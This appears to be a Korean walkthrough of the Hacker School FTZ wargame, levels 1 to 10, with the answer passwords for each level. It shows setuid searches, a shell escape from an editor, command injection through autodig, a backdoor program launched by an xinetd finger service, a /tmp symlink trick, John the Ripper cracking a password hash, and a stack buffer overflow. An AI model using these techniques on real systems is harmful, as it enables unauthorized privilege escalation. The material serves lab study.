 <h1>Hacker School FTZ</h1>

**Level1**

hint : Level2 권한에 setuid가 걸린 파일을 찾는다.

find / -user level2 -perm +4000

/bin/ExcuteMe

명령어 실행 bash

my-pass

Level2 Password : hacker or cracker





**Level2**

find / -user level3 -perm -4000

/usr/bin/editor

:!/bin/bash

my-pass

Level3 Password : can you fly?



**Level3**

autodig "/bin/bash; my-pass"

Level4 Password : suck my brain





**Level4**

/etc/xinetd.d/에 backdoor가 존재

cat backdoor

service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}

/home/level4/tmp 폴더에는 backdoor라는게 없음



vi backdoor.c

#include <stdio.h>

int main(){

​	system("my-pass");

​	return 0;

}



gcc -o backdoor backdoor.c

/home/level4/tmp/ 디렉터리 위치에 backdoor 파일을 생성

finger level4@localhost



Level5 Password : what is your name?





**Level5**

hint 

/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.



/usr/bin/ 폴더에 level5가 /tmp 디렉토리에 임시파일 생성

하지만 생성 후 삭제하는 것으로 추정

심볼릭 링크 설정

ln -s a level5.tmp

cd /tmp

cat a



Level6 Password : what the hell





**Level6**

hint - 인포샵 bbs의 텔넷 접속 메뉴에서 많이 사용되던 해킹 방법이다.

hint를 출력할 때 Ctrl + C를 누르면 level6 폴더로 이동한다

ls -al 명령어를 통해 password가 존재하는 것을 확인한 후

cat password 명령을 통해 password 확인



Level7 Password : come together





**Level7**

Level8 Password : break the world





**Level8**

hint : 2700 용량인 파일을 찾아라

find / -size 2700c 2> /dev/null

2> /dev/null은 아닌 것들 없애줌

/var/www/manual/ssl/ssl_intro_fig2.gif
/etc/rc.d/found.txt
/usr/share/man/man3/IO::Pipe.3pm.gz
/usr/share/man/man3/URI::data.3pm.gz

3가지 파일이 나오는데

/etc/rc.d/found.txt를 확인



john the ripper

Kali

test.txt파일 

level9:$1$vkY6sSlG$6RyUXtNMEVGsfY7Xf0wps.:11040:0:99999:7:-1:-1:134549524



john test.txt를 실행하면


Level9 Password : apple





**Level9**

hint 

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}



/tmp 폴더에 bof.c를 생성한 후 

gcc -g -o bof bof.c를 통해 실행파일 생성

-g 옵션은 디버깅을 가능하게 해줌



우리가 예상하는 스택 구조

buf [10]

buf2 [10]

SFP [4]

RET [4]



실제 스택 구조

buf [10]

dummy [6]

buf2 [10]

dummy [6]

dummy [8]

SFP [4]

RET [4]



따라서 ./bof를 통해 gogogogogogogogogogo 20바이트 채우면

buf2에 go로 채워지는 부분이 생겨서 레벨이 상승한다



my-pass

Level10 Password : interesting to hack!



**Level10**

hint 

두명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다.
그 대화방은 공유 메모리를 이용하여 만들어졌으며,
key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여
level11의 권한을 얻어라.

레벨을 완료하셨다면 소스는 지우고 나가주세요.



공유 메모리 생성 함수 shmget()함수

